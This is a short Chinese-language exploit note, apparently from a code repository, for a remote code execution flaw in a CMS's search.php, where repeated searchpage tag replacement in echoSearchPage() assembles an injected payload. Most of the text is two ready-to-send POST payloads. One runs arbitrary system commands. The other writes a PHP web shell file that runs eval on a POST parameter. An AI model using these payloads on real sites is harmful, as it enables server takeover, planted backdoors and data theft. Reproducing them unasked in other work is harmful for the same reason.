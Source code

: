 漏洞详情:                        
	漏洞位于search.php处，echoSearchPage()函数对html中的searchpage标签进行了多次的替换，多次替换过程中不断组合形成payload    
PostData:      
	searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=sys&9[]=tem('cmd');
	可执行任意命令      
PostData:          
    searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=fwrite(&9[]=fopen('Mr.php','w')&9[]=,'<?php eval($_POST["Mr"]);?>');         
    可GetShell

